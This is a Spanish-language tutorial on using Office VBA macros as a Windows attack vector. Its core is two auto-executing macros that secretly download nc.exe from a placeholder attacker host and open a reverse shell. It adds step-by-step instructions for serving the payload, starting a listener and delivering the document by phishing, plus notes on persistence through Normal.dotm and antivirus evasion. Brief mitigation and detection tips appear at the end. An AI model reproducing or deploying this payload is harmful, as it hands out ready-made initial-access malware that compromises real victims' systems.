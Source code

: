 ### ¿Qué es una macro?

Una **macro** es una secuencia de comandos o instrucciones automatizadas que pueden ejecutarse dentro de aplicaciones como **Microsoft Office (Word, Excel, PowerPoint, etc.)**. Estas macros se escriben en **VBA (Visual Basic for Applications)** y se utilizan para automatizar tareas repetitivas.

----------

### Uso de macros como vector de ataque en Windows

Los atacantes pueden **abusar de las macros** para ejecutar código malicioso en un sistema Windows, generalmente con el objetivo de obtener acceso inicial o ejecutar malware.

#### **1. Métodos de ataque con macros**

##### **a) Documento de Office malicioso**

-   Se crea un documento (ej. `factura.docm`, `reporte.xlsm`) con una macro VBA maliciosa.
-   Se envía a la víctima por **phishing** o ingeniería social.
-   La macro se ejecuta cuando la víctima **habilita macros** en Office.

##### **b) Descarga y ejecución de payloads**

-   Una macro maliciosa puede descargar y ejecutar un archivo desde Internet (`certutil.exe`, `mshta.exe`, `powershell.exe`).
-   Ejemplo de código VBA que descarga un payload:

```
Sub AutoOpen()
   Dim objShell As Object
   Set objShell = CreateObject("WScript.Shell")
   objShell.Run "powershell -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command Invoke-WebRequest -Uri http://attacker.com/nc.exe -OutFile C:\Windows\Temp\nc.exe"
   objShell.Run "C:\Windows\Temp\nc.exe -e cmd.exe attacker_ip 4444"
End Sub
```
-   **Objetivo:** descargar y ejecutar `nc.exe` para obtener una **reverse shell**.

##### **c) Persistence con macros en Plantillas Globales**

-   Se coloca una macro maliciosa en la **plantilla global de Word (`Normal.dotm`)**.
-   Cada vez que la víctima abre Word, la macro se ejecuta automáticamente.

##### **d) Uso de Macros para Evasión de Seguridad**

-   Técnicas como **obfuscación**, `Application.Run`, `Shell`, `WScript.Shell` evitan detección por antivirus.
-   Uso de **DDE (Dynamic Data Exchange)** en lugar de macros para ejecutar comandos.

----------

### **Protecciones y mitigaciones**

1.  **Deshabilitar macros** por defecto en Microsoft Office.
2.  **Habilitar Protected View** para evitar la ejecución automática.
3.  **Bloquear ejecución de VBA en documentos descargados** con políticas de grupo (`GPO`).
4.  **Monitorizar procesos anómalos** (`winword.exe` ejecutando `cmd.exe` o `powershell.exe`).
5.  **Uso de firmas y control de aplicaciones** con AppLocker o WDAC.

----------

### **Casos Reales y Uso en Red Team**

-   **Emotet** y **TrickBot** usaron macros para descargar ransomware.
-   **Cobalt Strike** usa macros para implantar payloads en pentesting.
-   En pruebas OSCP y CTFs, las macros pueden ser utilizadas para ejecutar `msfvenom` payloads en máquinas Windows.

----------
**ejemplo funcional** de una macro VBA que puedes usar en un entorno controlado para pruebas. Este código descarga y ejecuta `nc.exe` para abrir una **reverse shell** en Windows.

> ⚠ **Advertencia**: Usa este código **solo en entornos de prueba y con autorización**. No me hago responsable del uso indebido.

----------

## **1️⃣ Crear un Documento de Office con Macro Maliciosa**

Este código en VBA se ejecutará cuando se abra el documento.

```
Sub AutoOpen()
    Call Payload
End Sub

Sub Document_Open()
    Call Payload
End Sub

Sub Payload()
    Dim objShell As Object
    Set objShell = CreateObject("WScript.Shell")
    
    ' Descargar Netcat desde un servidor
    objShell.Run "powershell -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command Invoke-WebRequest -Uri http://ATTACKER_IP/nc.exe -OutFile C:\Windows\Temp\nc.exe", 0, True
    
    ' Ejecutar Netcat para obtener una reverse shell
    objShell.Run "C:\Windows\Temp\nc.exe -e cmd.exe ATTACKER_IP 4444", 0, False
End Sub
```
## **2️⃣ Explicación del Código**

-   `AutoOpen()` y `Document_Open()` → Se ejecutan automáticamente cuando el documento se abre.
-   `Payload()`:
    -   Descarga `nc.exe` desde un servidor con `Invoke-WebRequest`.
    -   Guarda `nc.exe` en `C:\Windows\Temp\`.
    -   Ejecuta `nc.exe` para enviar una **reverse shell** a tu máquina atacante (`ATTACKER_IP:4444`).

----------

## **3️⃣ Cómo Usarlo**

### **📌 Paso 1: Configurar el Servidor Python**

1.  **Descargar Netcat para Windows (`nc.exe`)**  
    En tu máquina atacante (Kali Linux), descarga `nc64.exe` (versión de netcat para Windows):

`wget https://github.com/int0x33/nc.exe/raw/master/nc64.exe -O nc.exe`

2. Iniciar un servidor HTTP para servir `nc.exe`

`python3 -m http.server 80`

Esto permitirá que la víctima descargue `nc.exe`.

### **📌 Paso 2: Modificar la Macro**

-   Cambia **`ATTACKER_IP`** en el código VBA por la IP de tu máquina atacante.
-   Guarda el código en un documento **Word o Excel habilitado para macros** (`.docm` o `.xlsm`).

----------

### **📌 Paso 3: Iniciar el Listener en Kali**

Antes de que la víctima abra el documento, inicia un **listener** en tu Kali:

`nc -lvnp 4444`

### **📌 Paso 4: Enviar el Documento**

-   Envíalo mediante phishing o ingeniería social (en un CTF, súbelo al sistema objetivo si hay un vector de carga).

----------

## **4️⃣ Defensa y Detección**

### **📌 Cómo Detectarlo**

-   **Monitorizar procesos**: `winword.exe` ejecutando `cmd.exe` o `powershell.exe`.
-   **Ver logs de Windows Defender** si detecta la macro maliciosa.
-   **Revisar tráfico de red** para detectar descargas sospechosas.
